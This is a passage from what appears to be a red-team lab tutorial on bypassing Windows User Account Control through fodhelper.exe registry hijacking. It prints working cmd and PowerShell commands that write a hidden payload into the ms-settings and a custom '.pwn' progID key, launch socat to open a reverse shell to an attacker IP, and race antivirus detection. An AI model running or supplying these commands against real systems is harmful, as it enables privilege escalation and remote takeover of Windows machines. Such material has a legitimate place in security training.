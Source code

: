 ```
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```
Depending on your luck, fodhelper might execute before the AV kicks in, giving you back a reverse shell. If for some reason it doesn't work for you, keep in mind that this method is unreliable as it depends on a race between the AV and your payload executing first.

## Improving the fodhelper exploit

A variation on the fodhelper exploit was proposed by [@V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses), where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system. CurVer allows you to point to the default version of the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

The exploit code proposed by @V3ded uses Powershell to achieve this end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

```
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
This exploit creates a new progID with the name .pwn and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be pointed to the .pwn progID and use its associated command.

And execute the exploit from our backdoor connection as is. As a result, Windows Defender will throw another alert that references our actions:
